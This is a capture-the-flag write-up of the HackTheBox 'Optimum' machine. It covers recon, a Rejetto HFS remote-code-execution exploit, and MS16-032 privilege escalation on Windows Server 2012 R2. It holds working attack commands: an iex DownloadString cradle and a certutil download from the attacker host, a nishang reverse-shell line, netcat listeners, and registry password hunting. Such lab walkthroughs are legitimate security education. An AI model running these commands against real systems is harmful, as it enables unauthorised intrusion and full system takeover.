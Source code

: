 # Optimum [HTB]()
![optimum-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/optimum-01.png)


## Recon

I start by adding the target to `/etc/hosts` :

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/hosts-02.png)

From here i use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- optimum.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/nmap-res-03.png)


We have a single port open, appears to be running an HTTP file server. Lets take a look at it.


### HFS Port 80


Lets open the site through our browsers at `http://optimum.htb`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/site-04.png)


No files are hosted on the site at the moment. However, two things jump to my mind, the login link, and 
the version at the buttom. We could try to break the authintication logic, but if we hover over the 
version link we can see the file server is running `Rejetto`, which can also be seen from the page source:

![rejjeto-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/rejjeto-05.png)

If we search Goolge for exploits we can find an RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/39161). The script looks like Python 2, it says we need to have a web server hosting `nc.exe`, 
and we need to setup a listener manually. Lets give it a shot. 

After i download the file, i update my local IP and port information:

![exploit-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-06.png)

Now i grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to my current working directory 
and start a Python web server with:

```bash
python3 -m http.server 80
```

I then start my listener with:

```bash
rlwrap nc -lnvp 443
```

Now we execute the exploit with:

```
python2 rejetto_rce.py optimum.htb 80
```

![shell-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/shell-07.png)

After a couple of executions i get a shell. First run it grabbed `nc.exe` from my server, second time 
it connected with the shell. 


## Privilege Escalation


If we try to catch quick wins by checking privs with:

```cmd
whoami /priv
```

We dont get anything useful. Or if we look for saved credentials with:

```cmd
cmdkey /list
```

Again, nothing there. 


Having a look at the user's home directory and `AppData` folder, nothing interesting comes up. 
No unusual software. No interesting config files. I also checked our user's group membership, nothing useful. 

If we try to open a PowerShell prompt with `powershell -ep bypass`, the shell connection freezes until 
we terminate it and re-execute the exploit. 

If we try to hunt for stored password in the registry with:

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```

Nothing comes up. 


So i decided to generate `systeminfo` output and run [windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it. 


![sysinfo-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/sysinfo-08.png)


We are up againts an X64 Windows 2012 R2 server. The exploit suggester returned quite a lot of potential 
kernel exploits. I tried a few, but they didnt work for me. 


So I decided to enumerate the system deeper, i tried finding lenient service permission with [accesschk64](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk64.exe):


```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```


Nothing came up, so i tried to look for weak regitry ACL with:

```cmd
accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services
```

Nothing interesting came from that. I also tried running `WinPeas` but this froze the shell connection, 
and it appears the process gets hung and never terminitates. 

I tried looking at running services with:

```cmd
tasklist /SVC
```

Again, no leads came from that. I also tried looking at startup applications with:

```cmd
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
```

There were no startup tasks running as SYSTEM. 


At this point i decided to take a step back. I didnt find any third party software on the target, 
no misconfiguration of services, or file permissions. No saved credentials, no weak user privileges, 
no system tasks, no system services, Powershell freezes the connection, WinPEAS hangs indefinitely, 
what to do? 

Then i thought, this is a 2012 R2 server, the escalation must be a kernel exploit. So i went back to 
the `windows-exploit-suggester` output from before. I tried different exploits, and once again, nothing 
worked for me. i spent quite some time here.  

Primarly, i was interested in the `ms16-135` exploit, which is supposed to work for most x64-bit Windows
machines, which our target is. But instad, the exploit terminated saying, our machine's architecture was 32-bit. 

There was another exploit i tried a few times, `ms16-032`:

![exploit-suggester-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-suggester-09.png)

Previously, i tried the `metasploit` version, this failed so i decided to move on. However this time, 
i found a PowerShell version of the exploit [here](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1). 


If we take a look at the source code, we can see we need to invoke the function and specify a command to run as SYSTEM:

![exploit-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-10.png)

We can host nishang's reverse powershell script on a python server, setup a listener and run the exploit. 

First step, download the exploit to you kali, and invoke the funciton at the buttom:

![invoke-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/invoke-11.png)

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.42/rshell.ps1')"
```

Next, download [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script to your kali.

Add the following line at the end of the script:

![nishang-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/nishang-12.png)

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 9001
```

Now, from the target, download the exploit with:

```cmd
certutil -urlcache -f http://10.10.14.42/ms16-032.ps1 ms16-032.ps1
```

Setup the listener on you kali:

```bash
rlwrap -lnvp 9001
```

Then, use the 32-bit version of powershell to execute the exploit:

```cmd
C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe "C:\Users\kostas\Desktop\ms16-032.ps1"
```

This should give you a shell as the SYSTEM:

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/root-13.png)

